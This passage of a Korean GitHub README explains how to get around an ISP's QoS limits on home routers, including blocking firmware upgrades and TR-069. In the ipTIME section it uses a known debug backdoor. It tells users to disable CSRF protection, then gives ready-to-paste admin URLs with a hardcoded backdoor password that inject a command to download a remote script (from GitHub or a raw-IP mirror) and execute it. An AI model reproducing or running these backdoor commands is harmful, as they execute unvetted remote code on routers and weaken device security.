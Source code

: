 --------------------------------

마무리로서, 해당 방법의 사용을 저지하려는 시도 중 일부를 방지하기 위해 GiGA WiFi의 자동 펌웨어 업그레이드와 TR-069 통신을 차단 **(일부 기기만 지원)** 합시다

먼저 허용 규칙부터 추가해야 GiGA WiFi에 연결된 IPTV 등의 기기에서의 오작동을 방지할 수 있습니다

4개의 규칙을 모두 추가한 후, 허용 규칙이 차단 규칙보다 밑에(머큐리) 또는 위에(H1Radio) 있으면 됩니다.

<img width="497" alt="FWUpgradeBlocking_2" src="https://github.com/user-attachments/assets/05a0f3bb-f7c1-4724-9ba3-203dc0093c36" />


--------------------------------

넷기어 (예시로서 나이트호크 RAX80) -

<img width="1424" alt="Nighthawk_RAX80" src="https://github.com/user-attachments/assets/c5c1ba09-4d63-4d28-8e2b-3f1344e36719" />

--------------------------------

시놀로지RT (예시로서 RT1900ac) - 

￼![RT1900ac](https://github.com/user-attachments/assets/5ea5243e-821a-42c5-a18d-e3f2dcd5319e)

--------------------------------

OpenWrt - 

https://archive.md/VRZIO

--------------------------------

iptime(알파테스트중)

백도어 출처 - https://github.com/tylzars/iptime-debug - 펌웨어 버전 15.10.0, ipTIME A2004S에서 동작 확인됨

위 출처와 같이 iptime 공유기의 '원격 지원'기능에 잠재된 백도어에 접근할 방법이 있는 경우에만 유효합니다

<a href="https://github.com/veilRedeemer/udhcp/releases">미리 빌드된 udhcpc 출처</a>

1. 적용하려는 기기는 '악성 스크립트 접근 방지(CSRF)'기능이 꺼져 있으며, '원격 지원'기능이 켜져 있어야 합니다:
<img width="285" alt="iptime1" src="https://github.com/user-attachments/assets/ef4882cc-03a4-4478-acd1-a0418048dca0" />

2. 아래 링크 중 하나를 직접 클릭하지 말고 로그인한 관리자 페이지의 주소 칸에 붙여넣어 진행하세요. 관리자 계정/비밀번호를 설정하지 않은 경우 동작하지 않습니다:

http://192.168.0.1/sess-bin/d.cgi?act=1&fname=&aaksjdkfj=!@dnjsrurelqjrm*%26&dapply=%20Show%20&cmd=wget%20-O%20%2ftmp%2fstart.sh%20https%3a%2f%2fraw.githubusercontent.com%2fveilRedeemer%2fbypassQoSKoreatelecomISP%2frefs%2fheads%2fmain%2fiptime_bootstrap.sh%20%3bchmod%20755%20%2ftmp%2fstart.sh%20%3b%2ftmp%2fstart.sh

  이때 아래와 같은 메시지가 표시된다면 원본 링크의 암호화된 연결을 지원하지 않는 환경이므로 각자 웹서버를 준비하거나 아래에 미리 준비된 미러 링크를 사용해야 합니다
   
<img width="498" alt="notls" src="https://github.com/user-attachments/assets/6ee27eda-0b7f-4213-a868-7a118907b1d3" />

   미러 링크는 접속자의 IP 주소와 타임스탬프를 포함한 접속 기록을 저장함에 동의하고 미러 링크를 사용:

http://192.168.0.1/sess-bin/d.cgi?act=1&fname=&aaksjdkfj=!@dnjsrurelqjrm*%26&dapply=%20Show%20&cmd=wget%20-O%20%2ftmp%2fstart.sh%20http%3a%2f%2f168.138.196.144%2fiptime_bootstrap.sh%20%3bchmod%20755%20%2ftmp%2fstart.sh%20%3b%2ftmp%2fstart.sh

3. 아래와 같이 표시되면 성공. 다운로드한 데이터를 포함한 변경 사항은 특정 공유기 설정을 변경하거나 재시동되거나 전원이 끊어지면 지워집니다:
<img width="333" alt="iptime2" src="https://github.com/user-attachments/assets/fa6ee8d4-9990-4f80-8d70-8ad551737b36" />
